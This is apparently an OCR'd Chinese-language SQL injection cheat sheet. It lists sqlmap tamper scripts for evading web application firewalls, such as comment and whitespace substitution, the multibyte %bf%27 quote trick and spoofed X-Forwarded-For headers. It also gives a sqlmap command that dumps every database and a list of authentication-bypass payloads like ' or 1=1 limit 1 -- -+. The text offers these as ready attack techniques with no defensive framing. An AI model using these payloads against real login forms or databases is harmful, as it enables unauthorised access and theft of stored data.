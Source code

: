 |securesphere.py |附加特殊制作的字符串 |
|sp_password.py |  将“sp_password”附加到有效负载的末尾，以便从 DBMS 日志中自动混淆 |
|space2comment.py | 用注释替换空格字符 (' ') |
|space2dash.py | 用破折号注释 ('--') 后跟随机字符串和换行符 ('\n') 替换空格字符 ('') |
|space2hash.py | 将空格字符 (' ') 替换为井号字符 ('#')，后跟随机字符串和换行符 ('\n') |
|space2morehash.py | 将空格字符 (' ') 替换为井号字符 ('#')，后跟随机字符串和换行符 ('\n') |
|space2mssqlblank.py | 用一组有效替代字符中的随机空白字符替换空格字符 (' ') |
|space2mssqlhash.py | 用井号字符 ('#') 后跟换行符 ('\n') 替换空格字符 ('')|
|space2mysqlblank.py | 用一组有效替代字符中的随机空白字符替换空格字符 (' ') |
|space2mysqldash.py | 用破折号注释 ('--') 后跟换行符 ('\n') 替换空格字符 ('') |
|space2plus.py |  将空格字符 (' ') 替换为加号 ('+')  |
|space2randomblank.py | 用一组有效替代字符中的随机空白字符替换空格字符 (' ') |
|symboliclogical.py | 将 AND 和 OR 逻辑运算符替换为对应的符号（&& 和||） |
|unionalltounion.py | 将 UNION ALL SELECT 替换为 UNION SELECT |
|unmagicquotes.py | 将引号字符 (') 替换为多字节组合 %bf%27 以及末尾的通用注释 |
|uppercase.py | 用大写值“INSERT”替换每个关键字字符|
|varnish.py | 附加 HTTP 标头“X-originating-IP” |
|versionedkeywords.py | 用版本化 MySQL 注释将每个非函数关键字括起来 |
|versionedmorekeywords.py | 用版本化的 MySQL 注释将每个关键字括起来 |
|xforwardedfor.py | 附加一个虚假的 HTTP 标头“X-Forwarded-For”|

  #### 使用账户密码访问数据库
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all 
  #### 身份验证绕过 - 万能账户密码
	'-'
	' '
	'&'
	'^'
	'*'
	' or 1=1 limit 1 -- -+
	'="or'
	' or ''-'
	' or '' '
	' or ''&'
	' or ''^'
	' or ''*'
	'-||0'
	"-||0"
	"-"
	" "
	"&"
	"^"
	"*"
	'--'
	"--"
	'--' / "--"
	" or ""-"
	" or "" "
	" or ""&"